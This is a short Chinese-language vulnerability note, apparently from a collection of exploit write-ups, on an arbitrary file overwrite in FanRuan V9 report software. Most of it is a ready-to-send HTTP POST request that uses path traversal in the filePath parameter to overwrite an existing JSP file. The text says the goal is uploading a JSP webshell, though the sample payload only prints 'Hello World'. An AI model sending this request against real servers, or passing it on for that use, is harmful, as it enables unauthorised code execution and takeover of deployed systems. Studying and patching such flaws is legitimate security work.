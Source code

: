 ```yaml
---
article: false
title: OA产品-帆软
icon: any
order: 1
---
```


# OA产品-帆软

## 帆软V9任意文件覆盖导致的文件上传

### 漏洞描述

帆软 V9 存在任意文件覆盖，导致攻击者可以任意文件上传

### 漏洞影响

* 帆软 V9


### 网络测绘

### 漏洞复现

这个漏洞是任意文件覆盖，上传jsp马，需要找已经存在jsp文件进行覆盖。

```
POST /WebReport/ReportServer?op=svginit&cmd=design_save_svg&filePath=chartmapsvg/../../../../WebReport/update.jsp  HTTP/1.1
Host: 192.168.10.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=DE7874FC92F0852C84D38935247D947F; JSESSIONID=A240C26B17628D871BB74B7601482FDE
Connection: close
Content-Type:text/xml;charset=UTF-8

Content-Length: 74

{"__CONTENT__":"<%out.println(\"Hello World!\");%>","__CHARSET__":"UTF-8"}

```

